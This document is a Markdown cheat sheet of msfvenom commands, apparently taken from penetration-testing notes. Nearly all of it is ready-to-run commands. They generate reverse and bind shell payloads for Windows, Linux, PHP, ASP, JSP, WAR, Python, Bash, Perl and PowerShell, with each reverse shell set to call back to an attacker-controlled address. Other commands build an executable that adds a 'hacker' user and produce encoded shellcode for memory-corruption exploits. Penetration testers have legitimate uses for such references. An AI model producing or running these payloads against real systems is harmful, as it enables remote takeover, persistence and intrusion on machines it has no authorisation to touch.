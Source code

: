 # Msfvenom

## List Payloads

You may list payloads with the following command:

```text
msfvenom --list payloads
```

## Staged and Stageless

Windows Staged reverse TCP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

Windows Stageless reverse TCP

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

Linux Staged reverse TCP

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

Linux Stageless reverse TCP

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

### Windows Payloads <a id="windows-payloads"></a>

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

### Linux Payloads <a id="linux-payloads"></a>

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
```

Add a user in windows with msfvenom:

```text
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

## Web Payloads

PHP

```text
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '' > shell.php && pbpaste >> shell.php
```

ASP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
```

JSP

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
```

WAR

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
```

## Scripting Payloads

Python

```text
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py
```

Bash

```text
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
```

Perl

```text
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```

PowerShell

```text
msfvenom -p windows/x64/powershell_reverse_tcp -o psh.ps1 -a x64 --platform windows LHOST=192.168.88.251 LPORT=8080
```

## Memory Corruption Payloads

Creating a msfvenom payload with an encoder while removing bad characters:

```text
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.20 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c EXITFUNC=thread
msfvenom -a x64 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.20 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c EXITFUNC=thread
```

## Library Payloads

You may list libraries with the following command:

```text
msfvenom --list payloads | grep -i library
```

### DLL Payloads

You can list the payloads that use DLLs with the following command:

```text
msfvenom --list payloads | grep -i DLL
```

## List Formats

```text
❯ msfvenom --list formats

Framework Executable Formats [--format <value>]
===============================================

    Name
    ----
    asp
    aspx
    aspx-exe
    axis2
    dll
    elf
    elf-so
    exe
    exe-only
    exe-service
    exe-small
    hta-psh
    jar
    jsp
    loop-vbs
    macho
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe
    vba-psh
    vbs
    war

Framework Transform Formats [--format <value>]
==============================================

    Name
    ----
    base32
    base64
    bash
    c
    csharp
    dw
    dword
    hex
    java
    js_be
    js_le
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    sh
    vbapplication
    vbscript
```

